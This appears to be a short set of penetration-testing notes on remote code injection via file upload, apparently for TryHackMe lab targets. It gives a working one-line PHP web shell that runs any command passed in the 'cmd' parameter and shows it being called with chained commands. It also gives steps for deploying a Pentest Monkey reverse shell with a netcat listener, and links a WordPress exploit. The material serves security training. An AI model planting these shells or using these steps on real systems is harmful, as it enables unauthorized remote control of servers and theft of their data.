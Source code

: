 = Remote Code Injection

2 Methods:
1. Web Shells (often the only opportunity)
2. Reverse/Bind Shells (preffered)

- e.g. with a low-privileged web user Account "www-data"
- usually with uploading a programm in the same language as the backend (e.g. php, python django, node.js)
- doesnt work if the app is routed (if routing is defined in the app and not the filesystem)
- restricted by
  - file length
  - firewall rules

e.g. Wordpressversion 4.6 (after wpscan)  => https://www.exploit-db.com/exploits/41962

# Web Shell

## PHP

Create a webshell.php:
```
<?php
    echo system($_GET["cmd"]);
?>
```

and call it on the Target with: `view-source:http://demo.uploadvuln.thm/uploads/webshell.php?cmd=id;whoami;ls`

# Reverse Shell

## PHP - Pentest Monkey

Use a general [Pentest Monkey Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php), change Line 49 `$ip = '127.0.0.1'; // CHANGE THIS` and save as "reverse-shell.php"

Start a [[netcat]] Listener on the local machine: `nc -lvnp 1234`

Upload the Shell by navigating to the uploaded File: `http://demo.uploadvulns.thm/uploads/php-reverse-shell.php`

The Webpage shouldn load normally but will hang and we will get a connection in netcat.

